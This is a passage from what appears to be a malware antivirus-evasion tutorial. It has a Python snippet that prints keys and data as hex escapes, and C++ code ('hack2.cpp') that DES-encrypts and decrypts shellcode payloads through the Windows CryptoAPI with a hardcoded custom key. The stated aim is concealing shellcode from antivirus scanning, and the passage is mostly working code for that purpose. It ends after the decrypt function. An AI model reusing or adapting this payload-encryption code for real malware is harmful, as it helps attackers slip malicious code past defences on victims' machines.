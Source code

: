 ```python

# import binascii
# h = binascii.hexlify(key)
# print (h.decode("ascii"))

# print ('{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in key) + ' };')

# print (len(data))
print("key:", "\\x" + '\\x'.join('{:02x}'.format(x) for x in key))
print("\n")
print("original data:", "\\x" + '\\x'.join('{:02x}'.format(x) for x in data))
print("\n")
print("encrypted data:", "\\x" + '\\x'.join('{:02x}'.format(x) for x in encrypted_data))
print("\n")
print("decrypted data:", "\\x" + '\\x'.join('{:02x}'.format(x) for x in decrypted_data))
```

### practical example 2

At this example (`hack2.cpp`), we can try to DES encrypt and decrypt payload with custom key `\x6d\x65\x6f\x77\x6d\x65\x6f\x77`:      

```cpp
/*
 * hack.cpp - encrypt and decrypt shellcode via DES (custom key). C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/02/13/malware-av-evasion-11.html
*/
#include <windows.h>
#include <wincrypt.h>
#include <stdio.h>
#pragma comment (lib, "crypt32.lib")

void encrypt_des(const unsigned char *my_payload, unsigned char *output, int my_payload_len, HCRYPTKEY hKey) {
  DWORD block_len = 8;
  int i;
  int n = (my_payload_len / block_len) + (my_payload_len % block_len != 0);
  int padding = block_len - (my_payload_len % block_len);

  for (i = 0; i < n; i++) {
    memcpy(output, my_payload, block_len);
    if (i == n - 1) {
      memset(output + my_payload_len % block_len, '\x90', padding);
    }
    CryptEncrypt(hKey, 0, (i == n - 1), 0, output, &block_len, block_len);
    my_payload += block_len;
    output += block_len;
  }
}

void decrypt_des(const unsigned char *my_payload, unsigned char *output, int my_payload_len, HCRYPTKEY hKey) {
  DWORD block_len = 8;
  int i;
  int n = my_payload_len / block_len;

  for (i = 0; i < n; i++) {
    memcpy(output, my_payload, block_len);
    CryptDecrypt(hKey, 0, (i == n - 1), 0, output, &block_len);
    my_payload += block_len;
    output += block_len;
  }
}
```